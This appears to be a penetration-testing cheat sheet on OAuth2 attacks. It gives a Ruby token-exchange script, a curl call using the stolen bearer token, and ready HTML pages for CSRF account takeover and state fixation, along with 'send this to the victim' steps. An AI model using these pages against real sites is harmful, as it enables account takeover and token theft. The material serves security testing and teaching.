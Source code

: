 # OAuth2

## Open Redirect

When authorising with OAuth, then the redirect parameters for open redirects.  
This can be used to steal session codes from victims.  

## Get Access Tokens with Ruby

If you can create a resource, this script can be used with XSS or CSRF to steal sessions:  
Script from Louis at Pentesterlab  

```ruby
require 'oauth2'

callback = "[CALLBACK_URL]"
app_id = "[APPLICATION_ID]"

secret = "[SECRET]"
client = OAuth2::Client.new(app_id, secret, site: "[AUTHORIZATION_SERVER]")
client.auth_code.authorize_url(redirect_uri: callback)

code="[CODE]"
access = client.auth_code.get_token( code, redirect_uri: callback)
access.get("/api/user").parsed

puts access.token 
```

Feed the token returned from above into this command:  

```bash
curl -H 'Authorization: Bearer [TOKEN]' [RESOURCE_SERVER]/api/keys --dump-header -
```

## CSRF to Access Another User's Account

1. Start by creating a malicious account on the `authorisation server` and the `OAuth2 Client`
2. Line these two accounts and then unlink them
3. Check that the process of signing in and authorising does not require CSRF tokens
4. Create an HTML page to be loaded inside an iframe. Copy the form found in the source of the target page

```html
<!-- frame.html -->
<html>
        <body onload="document.getElementById('csrf').submit()">
<form class="new_user" id="csrf" action="http://target.com/users/sign_in" accept-charset="UTF-8" method="post"><input name="utf8" type="hidden" value="✓"><input type="hidden" name="authenticity_token" value="xwlEm/OXisbDKOWdxJIFZCX7C/OGvl00RiJQehGA9pgAMqxgMS3QlF4kfbtrkAR1NGH0X+cY0OEdkGRm5X0iXw==">
  <div class="field">
    <label for="user_email">Email</label><br>
    <input autofocus="autofocus" autocomplete="email" type="email" value="test2@example.com" name="user[email]" id="user_email">
  </div>

  <div class="field">
    <label for="user_password">Password</label><br>
    <input autocomplete="current-password" type="password" value="password" name="user[password]" id="user_password">
  </div>

    <div class="field">
      <input name="user[remember_me]" type="hidden" value="0"><input type="checkbox" value="1" name="user[remember_me]" id="user_remember_me">
      <label for="user_remember_me">Remember me</label>
    </div>

  <div class="actions">
    <input type="submit" name="commit" value="Log in" data-disable-with="Log in">
  </div>
</form>
</body>
</html>
```

5. Create an HTML page that will load your iframe and then open the authorisation page after a timeout

```html
<!-- exploit.html -->
<html>
        <body>
                <iframe src="frame.html"></iframe>
        <script>
                setTimeout(function() {window.location="http://target.com/users/auth/myprovider"}, 500);
        </script>
        </body>
</html>

```

## State Fixation with CSRF

Exploiting an OAuth2 Client that is vulnerbale to state fixation and CSRF in the link functionality.  

Create an HTML page that will:  
- Prime the victim's session with a state
- Pass a valid code with the fixated state

Create a malicious account that will be used for the link, begin the OAuth2 dance but intercept requests and stop before the final redirect with the valid code.  
Look through the request history for a request that primes the session with a state, e.g. `http://example.com/users/auth/myprovider?state=<snip>`  
Next, the final request held in the intercept should have the valid code, e.g. `http://example.com/users/auth/myprovider/callback?code=<snip>&state=<snip>`. Keep this request in the intercept tab.  
Place both of these URLs into a HTML file:  

```html
<html>
        <body>
                <img src="http://example.com/users/auth/myprovider?state=AAA"> <!-- Prime the targets session to use a specified "state" -->
                <script>
                        setTimeout(function() {window.location="http://example.com/users/auth/myprovider/callback?code=<snip>&state=AAA"},2000); <!-- Use the valid code with the malicious state -->
                </script>
        </body>
</html>
```

Send this to the victim. Once they have clicked the link and a few seconds have gone by,  
drop the request held in the intercept tab and navigate to the Client server.  
Link with OAuth2 and hopefully you will have access to the target's account.  
